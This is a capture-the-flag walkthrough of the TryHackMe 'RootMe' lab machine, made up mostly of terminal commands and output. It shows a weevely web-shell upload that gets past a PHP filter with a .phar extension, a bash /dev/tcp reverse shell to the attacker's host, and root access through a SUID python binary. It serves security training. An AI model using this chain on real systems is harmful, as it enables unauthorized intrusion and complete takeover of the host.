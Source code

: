 ```yaml
---
render_with_liquid: false
title: RootMe
---
```



---


## Autorecon

```bash
┌──(kali㉿kali)-[~/thm]
└─$ sudo $(which autorecon) 10.10.148.99 -v
[*] Identified service ssh on tcp/22 on 10.10.148.99
[*] Identified service http on tcp/80 on 10.10.148.99
```


## 80 - HackIT - Home


### Info

![](/assets/obsidian/b5d7d01f2bc03a41484b26a9b8d4d813.png)


### Dir

```bash
┌──(kali㉿kali)-[~/thm]
└─$ feroxbuster -u http://10.10.148.99 --burp
301      GET        9l       28w      314c http://10.10.148.99/uploads => http://10.10.148.99/uploads/
301      GET        9l       28w      310c http://10.10.148.99/css => http://10.10.148.99/css/
200      GET      105l      188w     1697c http://10.10.148.99/css/home.css
200      GET      100l      161w     1611c http://10.10.148.99/css/panel.css
301      GET        9l       28w      309c http://10.10.148.99/js => http://10.10.148.99/js/
301      GET        9l       28w      312c http://10.10.148.99/panel => http://10.10.148.99/panel/
200      GET       11l       22w      263c http://10.10.148.99/js/maquina_de_escrever.js
200      GET       25l       44w      616c http://10.10.148.99/
```


# Get User & Root 
---

An upload page

![](/assets/obsidian/c4c227f4e33c6de746619bc74db74b98.png)

Generate weevly backdoor

```bash
┌──(kali㉿kali)-[~/thm]
└─$ weevely generate x w
Generated 'w' with password 'x' of 687 byte size.
```

It will block php files

![](/assets/obsidian/0fe0e6d36edb64a9d9ed51c89a121e27.png)

Use `.phar` to bypass

```bash
┌──(kali㉿kali)-[~/thm]
└─$ mv w.php w.phar
```

Successfully uploaded

![](/assets/obsidian/2e21d688d28af1fcd7573b1270ea9af7.png)

Reverse shell

```bash
┌──(kali㉿kali)-[~/thm]
└─$ weevely http://10.10.148.99/uploads/w.phar x
www-data@rootme:/var/www/html/uploads $ /bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.19.145/1111 0>&1"
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.148.99] 49580
bash: cannot set terminal process group (913): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ python3 -c "import pty;pty.spawn('/bin/bash')"
<ads$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@rootme:/var/www/html/uploads$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1111

www-data@rootme:/var/www/html/uploads$ find / -type f -perm -u=s+ 2>/dev/null
...
/usr/bin/python
...

www-data@rootme:/var/www/html/uploads$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```